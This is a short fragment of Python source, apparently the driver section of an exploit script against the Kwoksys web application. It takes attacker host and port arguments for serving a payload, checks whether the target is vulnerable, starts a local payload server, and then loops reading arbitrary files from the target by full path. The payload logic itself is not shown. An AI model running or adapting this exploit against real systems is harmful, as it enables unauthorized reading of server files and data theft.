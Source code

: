 ```python
    parser.add_argument('--LHOST', '-lh', required=True, dest='LHOST', help='Local Address to Serve Payload from')
    parser.add_argument('--LPORT', '-lp', required=True, dest='LPORT', help='Local Port to Serve Payload from')

    args = parser.parse_args()
    client = kwoksys(args.base_url, args.username, args.password, args.LHOST, args.LPORT)
    if client.isVulnerable():
        threading.Thread(target=StartServer, args=(int(args.LPORT),)).start()
        time.sleep(1)
        feedID = client.setup()
    if args.mode == 'read_files':
        while True:
            requestedFile = input('File (Full Path):')
            client.retrieve(requestedFile, feedID)
```
